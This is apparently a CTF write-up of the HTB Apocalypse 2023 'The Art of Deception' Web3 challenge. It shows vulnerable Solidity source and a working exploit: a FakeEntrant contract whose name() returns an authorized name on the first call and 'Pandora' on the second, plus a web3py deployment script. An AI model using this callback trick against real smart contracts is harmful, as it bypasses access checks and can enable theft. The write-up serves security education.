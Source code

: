 ```yaml
---
title: "Write-up of The Art of Deception (Blockchain) CTF HTB Apocalypse 2023"
summary: "Introduction to Web3 security: an explanation of the logic put behind flagging a Web3 challenge, written in web3py and solidity."
date: 2023-03-28T15:08:45-02:00
lastUpdate: 2023-03-28T15:08:45-02:00
tags: ["web3","solidity","write-up","Supwn"]
author: Turtyo
draft: false
---
```


When we first start the challenge, we have two URLs as it was common on the blockchain part of this CTF:
```
68.183.37.122:31651
68.183.37.122:32646 
```

The first one is an **RPC** URL, we will use it to connect to the blockchain.   
The second is a **TCP** port, we can connect to it using `nc 68.183.37.122:32646`.

This allows us to retrieve connection information that we will need for the challenge:
```
1 - Connection information
2 - Restart Instance
3 - Get flag
action? 1

Private key     :  0xa22d64ea53f80c513cf9223d4d968d96637819568b2a81f33d070e4818a1c382
Address         :  0x23b6462992d4131BE158f20B6aEEab2Fd6887b3B
Target contract :  0xDa2FE820ae9135E877ac01aA657743B7c75Fe4bb
Setup contract  :  0x1ba407613f8d2D40b70b70d312f05F6f2628e58F
```

Of course the private key is a false one, you won't win the big prize today x)   
And the `Get flag` tells us the challenge isn't solved yet.

We also have some files that we downloaded at the start of the challenge, let's check what's inside of them:   
`Setup.sol`
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.18;

import {HighSecurityGate} from "./FortifiedPerimeter.sol";

contract Setup {
    HighSecurityGate public immutable TARGET;

    constructor() {
        TARGET = new HighSecurityGate();
    }

    function isSolved() public view returns (bool) {
        return TARGET.strcmp(TARGET.lastEntrant(), "Pandora");
    }
}
```

We can for now see with the function `isSolved` that we need to verify `TARGET.lastEntrant() == "Pandora"`

`FortifiedPerimeter.sol`
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.18;


interface Entrant {
    function name() external returns (string memory);
}

contract HighSecurityGate {
    
    string[] private authorized = ["Orion", "Nova", "Eclipse"];
    string public lastEntrant;

    function enter() external {
        Entrant _entrant = Entrant(msg.sender);

        require(_isAuthorized(_entrant.name()), "Intruder detected");
        lastEntrant = _entrant.name();
    }

    function _isAuthorized(string memory _user) private view returns (bool){
        for (uint i; i < authorized.length; i++){
            if (strcmp(_user, authorized[i])){
                return true;
            }
        }
        return false;
    }

    function strcmp(string memory _str1, string memory _str2) public pure returns (bool){
        return keccak256(abi.encodePacked(_str1)) == keccak256(abi.encodePacked(_str2)); 
    }
}
```

Here we see multiple interesting things. First, we understand what was this "lastEntrant" thing, we have a list `authorized = ["Orion", "Nova", "Eclipse"]`. To modify the variable `lastEntrant` we need to use the function `enter` which will change the value of `lastEntrant` to match with the name of the person using the function (the entrant), after checking that the name of this entrant is indeed in `authorized`.

This `name` function is defined as an `external` function in the `Entrant` interface. In Solidity, the `external` keyword means that the function is called from outside the contract. To read more about function types, you can check the doc [here](https://docs.soliditylang.org/en/v0.8.19/types.html#function-types). Here, it is left to the person interacting with the `enter` function to implement it. In itself, this is not a vulnerability.

But the vulnerability comes in the following two lines:
```solidity
require(_isAuthorized(_entrant.name()), "Intruder detected");
lastEntrant = _entrant.name();
```

The interesting thing to note here is that the `name` function is called twice, first to check that it is an authorized name, and a second time to change the value of `lastEntrant`. And **we** are the ones that implement the `name` function ! The idea of how to flag the challenge is the following:  

***"What if we gave a name in the authorized list the first time the function is called and the name Pandora the second time ?"***

I started by writing a solidity file for this (`fake_entrant.sol`)
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.18;


interface Entrant {
    function name() external returns (string memory);
}

interface HighSecurityGate {
    function enter() external;
}

contract FakeEntrant is Entrant {
    bool private _hasBeenCalled = false;
    HighSecurityGate _gate;
    
    constructor(address gateAddress){
        _gate = HighSecurityGate(gateAddress);
    }

    function callEnter() public {
        _gate.enter();
    }

    function name() external override returns (string memory) {
        if (!_hasBeenCalled) {
            _hasBeenCalled = true;
            return "Orion";
        } else {
            return "Pandora";
        }
    }

}
```
The `name` function does exactly what was described above. The `callEnter` function is here to be able to ask for the `enter` function on behalf of this contract.
We can't just call the `enter` function ourselves, because we don't have the `name` function implemented.   
So instead of doing this: `us -> enter`   
We do: &emsp; &emsp; &emsp; &emsp; &emsp; &emsp; `us -> callEnter -> fake_entrant.sol -> enter`   
The `fake_entrant.sol` acts as a middle man for us.   

And here is the `web3py` code to make all of this work (`sneaking_in.py`):
```python
from web3 import Web3
from abi import *
import solcx

url = 'http://68.183.37.122:31651'
# nc 68.183.37.122 32646 

private_key     =  "0xa22d64ea53f80c513cf9223d4d968d96637819568b2a81f33d070e4818a1c382" # this is a false one btw
address         =  "0x23b6462992d4131BE158f20B6aEEab2Fd6887b3B"
target_contract =  "0xDa2FE820ae9135E877ac01aA657743B7c75Fe4bb"
setup_contract  =  "0x1ba407613f8d2D40b70b70d312f05F6f2628e58F"

w3 = Web3(Web3.HTTPProvider(url))
print('[+] Connection successful' if w3.is_connected() else '[-] Connection failed')

contract_fortified_perimeter = w3.eth.contract(target_contract, abi = abi_fortified_perimeter)
contract_setup = w3.eth.contract(setup_contract, abi = abi_setup)

# Compile the contract
comp = solcx.compile_files("./fake_entrant.sol", output_values=["abi", "bin"])['fake_entrant.sol:FakeEntrant']

# Deploy the contract
contract_fake_entrant = w3.eth.contract(abi=comp['abi'], bytecode=comp['bin'])
tx_hash = contract_fake_entrant.constructor(target_contract).transact()
tx_receipt = w3.eth.wait_for_transaction_receipt(tx_hash)
contract_fake_entrant_address = tx_receipt.contractAddress
new_contract_fake_entrant = w3.eth.contract(abi=comp['abi'],address=tx_receipt.contractAddress)

# print(f'Receipt : {tx_receipt}')
print(f'Contract address : {contract_fake_entrant_address}')

print("Calling the enter function")
new_contract_fake_entrant.functions.callEnter().transact()

print(f'lastEntrant = {contract_fortified_perimeter.functions.lastEntrant().call()}')
print(f'isSolved = {contract_setup.functions.isSolved().call()}')

# goal is to make last entrant as "Pandora"
```
After that we just need to `nc 68.183.37.122:32646` and get the flag !

Few things to note here:
- I used [__Remix__](https://remix.ethereum.org/) (an online tool) to compile the `FortifiedPerimeter.sol` and `Setup.sol` files in order to get their ABI (that's basically a list of the functions and attributes of the contracts in the file)
- [solcx](https://pypi.org/project/py-solc-x/) is a python interface to use the [solc compiler](https://docs.soliditylang.org/en/latest/installing-solidity.html#building-from-source)
- I am still unsure as to why I had to recreate the contract using the address of the contract. I thought it would already be in the blockchain when I used the constructor, but it seems that the local instance is separated from the online instance of the contract.

Also if you just started working with web3 (as I did before this CTF), the difference between `call` and `transact` functions is that `call` is a read only function (meaning you look at the state of what you are calling) whereas `transact` is used to make a change.

I hope this WU was clear, thank you for reading through it.

Turtyo for the Supwn team
